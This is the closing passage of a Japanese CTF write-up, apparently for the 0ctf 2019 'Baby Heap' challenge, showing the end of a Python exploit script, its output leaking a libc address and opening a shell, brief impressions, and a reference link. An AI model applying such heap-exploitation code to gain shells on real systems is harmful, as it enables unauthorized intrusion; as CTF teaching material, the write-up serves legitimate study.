 ```python
update(6, payload)

# get the shell!
sock.sendlineafter(": ", "1")
sock.sendlineafter(": ", "1")

sock.interactive()
```

やったぜ。
```
$ python solve.py 
[+] __init__: Successfully created new process (PID=32457)
[+] <module>: libc = 0x7ffff79e4000
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```

# 感想
babyじゃないよね。でも凄い面白かったです。

# 参考文献
[1] [https://github.com/perfectblue/ctf-writeups/tree/master/0ctf-Quals-2019/Baby%20Heap%202019](https://github.com/perfectblue/ctf-writeups/tree/master/0ctf-Quals-2019/Baby%20Heap%202019)